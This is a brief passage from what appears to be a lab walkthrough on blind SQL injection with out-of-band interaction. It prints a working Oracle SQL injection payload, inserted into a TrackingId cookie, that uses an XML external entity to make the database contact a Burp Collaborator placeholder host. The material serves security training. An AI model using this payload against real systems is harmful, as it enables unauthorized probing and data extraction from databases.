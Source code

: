 ![Untitled](Blind%20SQL%20Injection%20with%20out-of-band%20images/Untitled%201.png)

Click on the `Copy to clipboard` to take the ******************sub-domain URL****************** of the **********************************************Burp Collaborator server**********************************************

Modify the request at `TrackingId` with each of the ************************cheat sheet************************ above

```
Cookie: TrackingId=x'UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP_COLABORATOR_SUBDOMAIN/">+%25remote%3b]>'),'/1')+FROM+dual--;
```

Send the request and solve the lab
